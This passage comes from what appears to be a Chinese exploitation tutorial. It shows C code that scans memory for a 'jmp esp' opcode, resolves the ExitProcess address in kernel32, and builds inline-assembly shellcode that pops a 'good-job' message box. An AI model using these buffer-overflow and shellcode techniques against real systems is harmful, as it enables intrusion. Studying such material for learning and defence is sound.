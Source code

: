 ```c
			if(ptr[position] == 0xFF && ptr[position+1] == 0xE4){
				//0xFFE4 is the opcode of jmp esp
				int address = (int)ptr + position;
				printf("OPCODE found at 0x%x\n",address);
			}
		}
		catch(...){
			int address = (int)ptr + position;
			printf("END OF 0x%x\n", address);
			done_flag = true;
		}
	}
}
```

搜索结果如下：

![Screen Shot 2018-06-20 at 3.42.36 PM.png]({{ site.url }}/images/0day/060E65D418E7BBC6822703B4038DCAD4.png)

可以发现还是很多的。我们选择`0x77dc965b`这个地址。

2. 编写并提取shellcode

首先找一下`ExitProcess`的地址。它在`kernel32.dll`中。使用上一章的方法：

![Screen Shot 2018-06-20 at 2.48.55 PM.png]({{ site.url }}/images/0day/4E16C49F008EC405F036210CCB69A49C.png)

得到其地址为`0x7C800000 + 0x0001CAFA = 0x7C81CAFA`。

获取机器码的思路是，先在C代码中把shellcode作为内联汇编嵌入并编译，然后在OllyDbg中打开这个可执行文件，找到编译后的shellcode复制出来。当然也有别的工具和办法。

代码如下：

```c
#include <windows.h>

int main()
{
	HINSTANCE LibHandle;
	char dllbuf[11] = "user32.dll";
	LibHandle = LoadLibrary(dllbuf);
	_asm{
		sub sp, 0x440
		xor ebx, ebx
		push ebx
		push 0x626F6A2D
		push 0x646F6F67
		mov eax, esp
		push ebx ; uType
		push eax ; lpCaption
		push eax ; lpText
		push ebx ; hWnd
		mov eax, 0x77D507EA
		call eax
		push ebx
		mov eax, 0x7C81CAFA
		call eax
	}
	return 0;
}
```
